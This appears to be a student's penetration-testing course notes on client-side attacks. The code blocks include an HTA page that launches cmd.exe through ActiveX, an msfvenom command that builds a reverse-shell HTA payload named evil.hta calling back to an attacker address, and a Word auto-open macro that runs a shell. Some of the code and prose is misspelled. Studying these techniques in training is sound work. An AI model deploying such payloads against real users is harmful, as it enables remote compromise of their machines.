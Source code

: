 # Module 13 (Clint Side Attacks)

<figure><img src="../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Know Your Target

*   Passive Client Information Gathering

    * identifying the victim's browser


* Active Client Information Gathering
  * Social Engineering and Client-Side Attacks



Leveraging HTM: Application

* Exploring HTML Applications
* HTA Attacks in Action

```html
<!DOCTYPE html>
<html>
<head>
	<script>
	var x='cmd.exe'
	new ActiveXObject('WScript.shell').Run(x);
</script>
</head>
<body>
<script>
	self.close();
</script>
</body>
</html>
```

Cerete payloa to make revers shell&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444   -f hta-psh -o /var/www/html/evil.hta

```

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Exploiting Microsoft Office

* installing Microsoft
* &#x20;

```
Sub AutoOpen()
test1
End Sub
Sub Doo_Open(0
test1
End Sub
Sub test1()
Createobject("WScript.shell").Run "cmd"
End Sub
```
